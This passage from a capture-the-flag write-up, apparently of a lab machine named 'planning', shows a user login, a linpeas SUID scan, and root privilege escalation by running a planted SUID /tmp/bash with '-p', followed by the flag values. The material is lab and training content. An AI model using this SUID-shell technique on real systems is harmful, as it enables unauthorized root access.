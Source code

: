```a
The list of available updates is more than a week old.  
To check for new updates run: sudo apt update  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings  
  
Last login: Thu Aug 7 21:03:08 2025 from 10.10.14.173  
enzo@planning:~$
```
- There it is!

## Lateral Movement Part 2 (Root)
- Firstly:
```a
enzo@planning:~$ cat user.txt  
f856ea56796cb30cb62b34d710906212
```
- Very good. Let's just spam `linpeas`, because it looks like that's just what works for me.
### `linpeas` (again)
- Nothing particularly crazy...
- I lied :)
```a
╔══════════╣ SUID - Check easy privesc, exploits and write perms  
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid  
ICMP is not accessible  
-rwsr-xr-x 1 root root 19K Dec  2  2024 /usr/lib/polkit-1/polkit-agent-helper-1  
-rwsr-xr-x 1 root root 335K Apr 22 11:51 /usr/lib/openssh/ssh-keysign  
-rwsr-xr-- 1 root messagebus 35K Aug  9  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 39K Dec  5  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)  
-rwsr-xr-x 1 root root 51K Dec  5  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8  
-rwsr-xr-x 1 root root 272K Jun 25 12:42 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable  
-rwsr-xr-x 1 root root 63K May 30  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)  
-rwsr-xr-x 1 root root 44K May 30  2024 /usr/bin/chsh  
-rwsr-xr-x 1 root root 40K May 30  2024 /usr/bin/newgrp  --->  HP-UX_10.20  
-rwsr-xr-x 1 root root 72K May 30  2024 /usr/bin/chfn  --->  SuSE_9.3/10  
-rwsr-xr-x 1 root root 39K Apr  8  2024 /usr/bin/fusermount3  
-rwsr-xr-x 1 root root 55K Dec  5  2024 /usr/bin/su  
-rwsr-xr-x 1 root root 75K May 30  2024 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 1.4M Aug  7 19:59 /tmp/bash
```
- See that lil' `/tmp/bash` there? It has SUID for `root`. If I just do `/tmp/bash -p` (`-p` preserves the `euid` of the caller), then I have a root shell. It's almost too easy.
```a
enzo@planning:~$ /tmp/bash -p  
bash-5.2# whoami  
root
```
- I can't believe that worked. Claim the treasure:
```a
bash-5.2# cd /root  
bash-5.2# cat root.txt  
a69721897410e2d49f3fa66ccd864278
```
